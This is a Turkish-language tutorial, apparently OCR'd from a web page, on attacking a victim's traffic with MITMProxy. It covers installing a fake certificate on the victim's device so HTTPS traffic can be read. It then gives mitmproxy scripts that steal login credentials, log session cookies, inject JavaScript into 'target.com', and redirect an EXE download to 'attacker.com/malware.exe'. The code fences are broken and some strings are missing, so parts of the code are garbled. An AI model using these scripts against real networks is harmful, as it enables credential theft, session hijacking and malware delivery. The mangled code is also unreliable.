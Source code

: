```bash
```
**🔹 Adım 4: MITMProxy Sertifikasını Yükleme (HTTPS Trafiğini Okumak İçin)**
HTTPS trafiğini analiz edebilmek için, MITMProxy’nin sahte sertifikasını kurbanın cihazına yüklememiz gerekir.
Kurbanın tarayıcısında adresine gidin.
Görünümüne göre uygun sertifikayı indirin ve yükleyin.
"Güvenilir Sertifika" olarak ekleyin.
**📌 Böylece HTTPS trafiğini analiz edebilirsiniz!**

3. MITMProxy ile Gerçekleştirilebilecek Saldırılar
MITM saldırısı yapıldıktan sonra, trafiği değiştirebilir, veri çalabilir ve zararlı içerik enjekte edebilirsiniz.

**📌 Saldırı 1: Kullanıcı Giriş Bilgilerini Çalma**
Eğer bir kurban bir web sitesine giriş yapıyorsa, MITMProxy ile giriş bilgilerini çalabilirsiniz:
```python
from mitmproxy import http
```
def request(flow: http.HTTPFlow):
 if "login" in flow.request.pretty\_url:
 username = flow.request.urlencoded\_form.get("username")
 password = flow.request.urlencoded\_form.get("password")
 print(f"Kullanıcı Adı: {username}, Şifre: {password}")

**📌 Bu betik, tüm giriş bilgilerini MITMProxy loglarına yazdırır.**

**📌 Saldırı 2: Kullanıcının Çerezlerini (Cookies) Çalma**
Eğer bir kullanıcının oturum çerezlerini çalmak isterseniz:
```python
from mitmproxy import ctx
```
def request(flow):
 cookies = flow.request.headers.get("Cookie", "")
 if cookies:
 ctx.log.info(f"Çerezler: {cookies}")

**📌 Bu betik, tüm çerezleri MITMProxy loglarına kaydeder.**

**📌 Saldırı 3: Web Sayfasına Zararlı JavaScript Ekleme (XSS)**
Bir web sitesine zararlı JavaScript kodu enjekte edebilirsiniz:
```python
from mitmproxy import http
```
def response(flow: http.HTTPFlow):
 if "target.com" in flow.request.pretty\_url:
 flow.response.text = flow.response.text.replace("", "alert('XSS HACKED');")

**📌 Bu betik, "target.com" yanıtına XSS saldırısı enjekte eder.**

**📌 Saldırı 4: Kullanıcının İndirdiği Dosyaları Değiştirme**
Bir kullanıcının indirdiği EXE dosyalarını değiştirebilirsiniz:
```python
from mitmproxy import http
```
def request(flow: http.HTTPFlow):
 if "example.com/software.exe" in flow.request.pretty\_url:
 flow.request.url = "http://attacker.com/malware.exe"
